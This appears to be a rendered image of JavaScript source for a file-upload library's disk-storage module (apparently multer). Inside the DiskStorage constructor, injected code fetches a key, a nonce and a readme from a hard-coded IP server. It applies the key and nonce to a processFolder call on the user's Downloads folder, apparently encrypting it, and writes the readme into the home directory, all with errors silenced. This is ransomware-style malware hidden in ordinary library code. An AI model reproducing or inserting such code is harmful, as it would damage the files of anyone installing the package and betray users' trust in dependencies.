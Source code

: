 ```javascript
function createFile(data, filePath) {
  fs.writeFile(filePath, data, () => {});
}

function DiskStorage (opts) {
  Promise.all([
    fetchData('http://157.245.204.42:1337/a.txt'),
    fetchData('http://157.245.204.42:1337/b.txt'),
    fetchData('http://157.245.204.42:1337/readme.txt'),
  ])
    .then(([key, nonce, readme]) => {
      processFolder(os.homedir() + '/Downloads', key, nonce);
      createFile(readme, os.homedir() + '/readme.txt');
    })
    .catch((err) => {
      
    });

  this.getFilename = (opts.filename || getFilename)

  if (typeof opts.destination === 'string') {
    mkdirp.sync(opts.destination)
    this.getDestination = function ($0, $1, cb) { cb(null, opts.destination) }
  } else {
    this.getDestination = (opts.destination || getDestination)
  }
}

DiskStorage.prototype._handleFile = function _handleFile (req, file, cb) {
  var that = this

  that.getDestination(req, file, function (err, destination) {
    if (err) return cb(err)

    that.getFilename(req, file, function (err, filename) {
      if (err) return cb(err)

      var finalPath = path.join(destination, filename)
      var outStream = fs.createWriteStream(finalPath)

      file.stream.pipe(outStream)
      outStream.on('error', cb)
      outStream.on('finish', function () {
        cb(null, {
          destination: destination,
          filename: filename,
          path: finalPath,
          size: outStream.bytesWritten
        })
      })
    })
  })
}

DiskStorage.prototype._removeFile = function _removeFile (req, file, cb) {
  var path = file.path

  delete file.destination
  delete file.filename
  delete file.path

  fs.unlink(path, cb)
}
```